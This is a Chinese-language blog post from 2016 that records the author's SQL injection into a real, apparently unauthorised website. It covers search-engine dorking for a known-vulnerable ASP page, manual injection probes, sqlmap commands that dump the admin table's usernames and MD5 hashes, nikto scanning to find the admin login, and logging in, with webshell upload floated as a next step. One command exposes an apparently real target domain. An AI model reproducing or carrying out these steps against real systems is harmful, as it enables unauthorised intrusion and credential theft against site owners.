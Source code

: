 ```yaml
---
layout: post
title:  " 一次Sql注入记录"
categories: Hacker
tags:  sql hacker
---
```


* content
{:toc}

## 0x00 背景

菜鸟级别的sql注入。

## 0x01 踩点

现在sql注入的漏洞已经不太好找了，大部分的网站都对这方面做好了防范，因此如果你继续使用`inurl:asp?id=`这种语法来查找试点，其实也挺困难的，很大的可能是找了很久都找不到，打消积极性。

所幸有很多现有的漏洞，比如搜关键字`inurl:TeachView.asp`，这是一个已知的漏洞，很早前在乌云上就有了，但是还有很多带着漏洞的网站在运行，因此，在百度上一搜，大把大把的......

### sql注入漏洞检测三部曲

**第一步：**
```
http://www.example.com/TeachView.asp?id=1'
#网页应该会变化，一般出现个错误界面，里面有错误代码,比如下面的信息：
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'[Microsoft][ODBC Microsoft Access Driver] 语法错误 (操作符丢失) 在查询表达式 'id=1鈥' 中。/TeachView.asp，行 5
```

**第二步：**

```
http://www.example.com/TeachView.asp?id=1 and 1=1
#网页应该是正常的。
```

**第三步：**

```
http://www.example.com/TeachView.asp?id=1 and 1=2

#网页有出错了，但是和之前的不一样了。
ADODB.Field 错误 '80020009'BOF 或 EOF 中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。/TeachView.asp，行 0

```

## 0x02 sql注入

sql注入分手工和工具注入。目前网上大部分都是教各种工具的用法，其实最好还是先自己尝试手动试一下，至少能了解大致的思路，比如怎么猜数据库名、字段，然后再使用工具。

### 手动注入举例

其实我也不怎么会手动注入，只是自己尝试几个后就用工具了，比较懒，以后看心情学了。很多猜测技巧，网上有现成的！

```
#举个小栗子，猜测表名
http://www.example.com/TeachView.asp?id=1 and (select count(*) from admin )>0
```

### sqlmap

当发现自己动手实在猜不出来结果后，直接上工具，kali自带sqlmap就够用，看一下帮助文档，开搞。

*下面记录，忽略大部分没用的信息，并且隐藏了所有我意识到的真实的数据。*

**先试下能不能看到所有数据库：**

```
~$ sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dbs

......

web server operating system: Windows 2003 or XPweb application technology: ASP.NET, 
Microsoft IIS 6.0, 
ASPback-end DBMS: Microsoft Access[02:15:55] [WARNING] on Microsoft Access 
it is not possible to enumerate databases (use only '--tables')
......

```

嗯，貌似不用枚举所有的db名称，但是知道了服务器的情况，剩了nmap自己扫了。貌似版本都很低，看来我也就配这种老系统了......

**那直接看一下表名：**

```
~$ sqlmap -u "http://www.yxqyxzx.com/TeachView.asp?id=1" --tables
......
[02:19:01] [INFO] fetching tables for database: 'Microsoft_Access_masterdb'[02:19:01] [INFO] fetching number of tables for database 'Microsoft_Access_masterdb'
......
[02:19:55] [INFO] retrieved: admin
......

```

我很好奇，之前都搜不出来db名，这次直接就默认了一个db的名字，个人猜测，sqlmap是通过这个web程序的权限来看数据库，那么通过这个web入口应该默认到这个数据库中。

数据表比较多，暂时只关注最主要的admin表。

**然后要尝试获取字段：**

```
~$ sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dump -T admin

......
[02:53:46] [INFO] retrieved: id[02:53:52] [INFO] retrieved: adminname[02:55:08] [INFO] retrieved: adminpassword
......
```

**接着就是获取帐号密码：**

其实帐号可以自己猜一些，手动注入的时候可以试试，比如admin、administrator什么的，怎么手动获取密码我还不会。

```
sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dump -T admin -C adminnamDatabase:
Microsoft_Access_masterdbTable: admin[2 entries]+----+-----+-----+------------------+----------+-----------+------------------+| id | url | num | title            | username | adminname | adminpassword    |+----+-----+-----+------------------+----------+-----------+------------------+| 1  | NULL | 198 | OY\x7f\x8es\x89- || admin    | 7a57a5a743894a0e || 4  | NULL | 472 | OY\x7f\x8es\x89- || admin2    | 7a57a5a743894a0e |

```

好了，现在获取到了帐号和密码的MD5值，然后上网解密一下就行了。

## 0x03 后台地址查找

查找后台地址的时候，我很靠谱的使用了手动查找，各种inurl就是搜不出来后台，最后看了一下kali里面有一个nikto，看一下帮助文档，感觉很傻瓜的样子。

```
~$ nikto -host http://www.example.com

- Nikto v2.1.6

---------------------------------------------------------------------------

+ Target IP:          *.*.*.*

+ Target Hostname:    www.example.com

+ Target Port:        *

+ Start Time:        2016-03-06 02:39:37 (GMT8)

---------------------------------------------------------------------------

......

+ Multiple index files found: /index.html, /index.asp

......

+ /admin/login.asp: Admin login page/section found.

+ /login.asp: Admin login page/section found.

......

```

**然后根据前面的帐号密码就可以很开心的进去了。**

## 0xFF 总结

个人感觉，上面记录的方法应该是非常不前卫的，因为大部分网站都很那找到这种漏洞了，但是思想应该还是比较相近的，可以学习一下整个思路，然后与时俱进地学习。

拿到管理员帐号后，可以做更多事，比如上传webshell、提权什么乱七八糟的，这就留到以后了。

第一次入侵成功后，其实没有什么成就感，也没有什么破坏欲，最大的感受就是，好坏就在一念之差了。



******
2016-03-06 22:00:00 hnds
******
